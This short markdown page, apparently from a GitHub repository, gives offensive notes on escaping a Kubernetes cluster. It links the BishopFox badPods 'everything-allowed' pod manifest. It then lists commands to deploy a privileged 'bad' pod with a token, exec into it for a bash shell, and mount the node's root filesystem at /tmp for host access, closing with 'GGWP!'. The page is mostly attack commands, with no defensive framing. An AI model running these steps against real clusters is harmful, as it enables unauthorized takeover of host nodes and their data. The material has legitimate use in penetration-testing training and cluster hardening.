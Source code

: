 ## Example:

### If we have admin access to the cluster, we can create any resources we Want.

### We can create a "bad" pod that mounts the node's file system.

## EVERYTHING-ALLOWED-EXEC-POD: https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml

## STEPS:

#### 1) Pull a container image (minikube's local docker registry) 

#### 2) 

    kubectl apply -f BAD_POD.yml --token={TOKEN} (Create the "bad" pod for privesc)

#### 3) 

    kubectl get pods --token={TOKEN}

#### 4) 

    kubectl exec -it BAD_POD --token={TOKEN} -- /bin/bash

## Breakout of the Kubernetes environment

### After we created an ran our malicious pod, we can escape the Kubernetes environment by mounting the file system to the /tmp directory (example)

#### 1) 

    mount /dev/root /tmp

#### 2) 

    cd /tmp

#### 3) GGWP!
